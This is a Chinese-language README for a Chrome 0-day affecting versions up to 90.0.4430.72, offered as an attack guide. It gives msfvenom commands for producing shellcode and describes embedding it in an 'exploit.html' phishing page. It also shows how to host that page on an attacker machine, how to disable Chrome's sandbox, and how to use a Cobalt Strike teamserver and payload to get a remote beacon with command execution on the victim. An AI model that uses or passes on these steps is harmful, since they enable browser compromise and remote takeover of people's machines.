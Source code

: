 # Chrome-0day
## 影响范围

目前最新版也受影响。

小于等于90.0.4430.72 (正式版本)

## 漏洞利用过程

测试环境：

Windows 10 x64

Chrome 90.0.4430.72 (正式版本)

## 1.执行系统命令

### 1.1生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 1.2制作html钓鱼文件


将生成的代码放入exploit.html中shellcode[]中。

#### 1.2.1 方式一

浏览器关闭沙盒并打开网页

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --no-sanbox file:///C:/chrome0day/exploit.html
```
<img src="$imgs/image-20210419212729010.png" alt="image-20210419212729010" style="zoom:50%;" />

#### 1.2.2 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

http://192.168.43.232/exploit.html

<img src="$imgs/image-20210419213214973.png" alt="image-20210419213214973" style="zoom:50%;" />



然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。



### 1.2.3关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",注意引号后有一个空格。

<img src="$imgs/image-20210419212821226.png" alt="image-20210419212821226" style="zoom:33%;" />



## 2.Cobalt Strike 利用 Chrome 0day 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3启动监听器：**

<img src="$imgs/image-20210419210046476.png" alt="image-20210419210046476" style="zoom:50%;" />

### 2.2 Cobalt Strike生成payload

2.2.1**按照步骤生成payload.c文件，注意这里勾选x64**。

<img src="$imgs/image-20210419210123713.png" alt="image-20210419210123713" style="zoom: 33%;" />

<img src="$imgs/image-20210419210355208.png" alt="image-20210419210355208" style="zoom: 33%;" />

2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。

![image-20210419210638146]($imgs/image-20210419210638146.png)

2.2.3 将引号里的代码复制到exploit.html文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。

![image-20210419212051276]($imgs/image-20210419212051276.png)

2.2.4 打开没有开启沙盒的Chrome浏览器访问：http://192.168.43.232/exploit.html

![image-20210419210849819]($imgs/image-20210419210849819.png)

2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。

![image-20210419210953419]($imgs/image-20210419210953419.png)







